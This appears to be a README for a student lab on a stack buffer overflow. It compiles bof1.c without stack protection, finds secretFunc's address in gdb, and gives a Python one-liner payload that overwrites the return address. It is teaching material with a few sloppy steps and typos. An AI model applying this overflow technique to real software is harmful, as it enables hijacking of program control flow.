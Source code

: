 # Exercise-Security Lab bof1


### Prepare for the lab environment:
The Dockerfile is used to build docker image with full required packages for Hands-On Assembly & Security labs. <br>
**How to use:**<br>
1. Install docker on your computer (host machine) <br>
2. Build the image "img4lab" that comprises all required packages for labs <br>
`$> docker build -t img4lab .` to build docker image <br>
3. Run docker container from previously built image <br> 
`$> docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab` <br>
`Seclabs` is created inside student's home folder
### Visualize the initial attack idea
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/stackframe.png" /> <br>
### Conducting the attack
1. After creating the seclabs folder, continue to create a folder named bof in seclabs <br>
`$> mdkir bof` <br>
2. Open terminal<br>
`$> cd seclabs` <br>
`$> cd bof` <br>
3. Run code command. to open visual studio in terminal <br>
4. Run docker container from previously built image <br>
5. Run this command to create file bof1.out<br>
`$>gcc -g bof1.c -o bof1.out`<br>
6. Compile program with options to code execution on stack <br>
`$>gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2` <br>
7. Load vuln.out in gdb <br>
`$> gdb -q bof1.out` <br>
8. Get the secretFunc function address <br>
`$> disas secretFunc` <br>
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/secretFuncAddress.png" /> <br>
9. Once we have obtained the secretFunc function address: 0804846b, we must exit gdb <br>
`$> q` <br>
11. Overflow memory we need to fill 204 characters + 4 characters of secretFunc function address <br>
`$>echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out` <br>
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/result.png" /> <br>
12. Remove the missing arguments line, add the variables a,b,1,2,... to the end of bof1.out
`$> echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out 1` <br>
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/result1.png" /> <br>

   
